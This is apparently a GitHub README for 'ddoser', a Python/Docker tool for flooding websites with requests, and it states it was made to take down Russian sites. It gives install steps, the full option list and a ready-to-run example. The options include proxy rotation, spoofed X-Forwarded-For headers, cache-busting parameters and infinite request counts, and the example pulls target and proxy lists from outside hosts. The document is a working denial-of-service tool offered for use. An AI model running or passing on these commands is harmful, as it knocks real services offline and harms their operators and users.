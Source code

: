 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT            ddos target url
  --target-urls-file TEXT      path or url to file contains urls to ddos
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  --count INTEGER              requests count (0 for infinite)
  --timeout INTEGER            requests timeout
  -v, --verbose                Show verbose log
  --ignore-response            do not wait for response body
  --with-random-get-param      add random get argument to prevent cache usage
  --user-agent TEXT            custom user agent
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --random-xff-ip              set random ip address value for X-Forwarder-For header
  --custom-headers TEXT        set custom headers as json
  --stop-attack INTEGER        stop the attack when the target is down after N tries
  --shuffle-proxy              Shuffle proxy list on application start
  -H, --header <TEXT TEXT>...  custom header
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**ddoser** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list   

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
